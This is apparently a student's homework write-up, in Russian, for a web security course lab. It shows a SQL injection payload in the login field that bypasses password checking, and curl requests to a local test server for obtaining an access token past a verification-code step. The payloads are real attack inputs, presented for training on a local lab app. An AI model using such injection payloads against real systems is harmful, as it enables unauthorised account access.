



# 05.03.01. SQL и транзакции - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/03_sql/README.md

[Задание .pdf](_att/050301/050301_Домашнее%20задание%20к%20занятию%20«1.3.%20SQL%20и%20транзакции».pdf)
### Задание «Логин и пароль»

1. После запуска контейнера смотрим логи БД в реальном времени, команда `docker logs -f 050301-db-1`. При попытке авторизации с известным логином и рандомным паролем в логах появляется:

  

Теперь известна точная структура SQL-запроса:
- Таблица: users
- Поля: login, password, removed
- Пароль хранится в хешированном виде
- Дополнительное условие: removed = FALSE

2. Готовим SQL-инъекцию с любым паролем:

```
sasha' AND removed = FALSE --
```

Результат - SQL-инъекция успешно обошла проверку пароля:

  

Система:
- Приняла инъекцию
- Нашла пользователя sasha
- Пропустила проверку пароля
- Сгенерировала код подтверждения `7002`
- Перевела на следующий экран с подтверждением кода

### Код подтверждения*

Браузер при вводе кода `7002` (получен в первом задании) отправляет данные:

```sh
curl 'http://localhost:8888/api/auth/verification' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:8888/verification' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://localhost:8888' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=0' \
  --data-raw $'{"login":"sasha\' AND removed = FALSE --","code":"7002"}'
```

Модифицируем запрос для обхода проверки кода:

```sh
curl 'http://localhost:9999/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha","code":"7002"}'
```

Итог - cURL запрос, который позволяет получить токен доступа без знания кода верификации:



---
```
инъекции верны, принимается!
```